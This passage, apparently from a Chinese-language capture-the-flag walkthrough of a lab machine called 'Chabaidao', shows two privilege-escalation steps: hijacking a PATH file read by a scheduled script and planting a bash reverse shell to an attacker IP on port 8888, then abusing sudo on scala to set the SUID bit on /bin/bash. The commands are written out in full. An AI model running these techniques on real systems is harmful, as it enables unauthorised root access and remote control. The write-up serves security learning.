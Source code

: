 `www-data` 用户可以免密以 `welcome` 用户的身份执行 `/home/welcome/write` 脚本。可以看出wirte脚本是以welcome用户实现写入的一个脚本，并且通过进程监控发现 `welcome` 用户会定时执行 `/home/welcome/chabaidao` 脚本，该脚本会读取 `/home/welcome/myfile` 的内容作为 `PATH` 环境变量。这是典型的 **PATH 环境变量劫持** 提权路径。

1. 在 `www-data` 用户可写的目录（如 `/dev/shm`）下创建一个名为 `file` 的恶意脚本，内容为反弹 Shell 命令，并赋予执行权限。

   ```bash
   www-data@Chabaidao:/tmp$ cd /dev/shm/  
   www-data@Chabaidao:/dev/shm$ cat > file << 'EOL'
   > #!/bin/bash
   > bash -c "/bin/bash -i >& /dev/tcp/192.168.205.128/8888 0>&1"
   > EOL
   www-data@Chabaidao:/dev/shm$ chmod +x file
   ```

2. 利用 `www-data` 的 `sudo` 权限，以 `welcome` 身份执行 `write` 脚本，将我们的恶意脚本所在目录 `/dev/shm` 添加到 `/home/welcome/myfile` 定义的 `PATH` 变量的最前面。

   ```bash
   www-data@Chabaidao:/dev/shm$ echo "/dev/shm/:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games" > /tmp/a
   www-data@Chabaidao:/dev/shm$ sudo -u welcome /home/welcome/write /home/welcome/myfile "$(cat /tmp/a)"
   ```

3. 在攻击机上监听 8888 端口，等待定时任务执行。当 `chabaidao` 脚本执行时，它会使用我们篡改后的 `PATH`，从而优先执行了 `/dev/shm/file`，我们就获得了 `welcome` 用户的 Shell。

## 2. 提权至 root (Scala Sudo 提权)

拿到 `welcome` 用户的 Shell 后，再次检查 `sudo` 权限。

```bash
welcome@Chabaidao:~$ sudo -l
...
User welcome may run the following commands on Chabaidao:
    (ALL) NOPASSWD: /usr/bin/scala
```

`welcome` 用户可以免密以 `root` 权限执行 `scala`。我们可以利用 `scala` 的交互式解释器来执行任意系统命令。

1. 以 `root` 权限启动 `scala` 解释器。

   ```bash
   sudo /usr/bin/scala
   ```

2. 在 `scala` 解释器中，使用 `:sh` 命令执行一个 shell 命令，为 `/bin/bash` 添加 SUID 权限位。

   ```scala
   Welcome to Scala 2.11.12 ...
   Type in expressions for evaluation. Or try :help.
   
   scala> :sh chmod +s /bin/bash
   res0: scala.tools.nsc.interpreter.ProcessResult = `chmod +s /bin/bash` (0 lines, exit 0)
   
   scala> :quit
   ```
